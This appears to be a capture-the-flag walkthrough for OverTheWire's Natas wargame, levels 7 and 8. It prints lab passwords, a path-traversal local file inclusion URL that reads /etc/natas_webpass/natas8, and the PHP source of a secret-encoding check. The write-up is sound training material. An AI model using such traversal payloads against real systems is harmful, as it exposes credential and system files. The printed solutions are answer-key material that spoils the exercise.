 ```text
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

### Natas 7

```text
View source  
hint: password for webuser natas8 is in /etc/natas_webpass/natas8
```

```markup
<a href="index.php?page=home">Home</a>  
<a href="index.php?page=about">About</a>
```

HREFs look vulnerable to LFI

```text
http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../../../../../../../../../../../../../../../../../../../../../../../etc/natas_webpass/natas8
```

DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

### Natas 8

click view source

```php
<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

A string has been encoded with the function encodeSecret.

base64\_encode — Encodes data with MIME base64  
[https://www.php.net/base64\_encode](https://www.php.net/base64_encode)

strrev — Reverse a string  
[https://www.php.net/manual/en/function.strrev.php](https://www.php.net/manual/en/function.strrev.php)
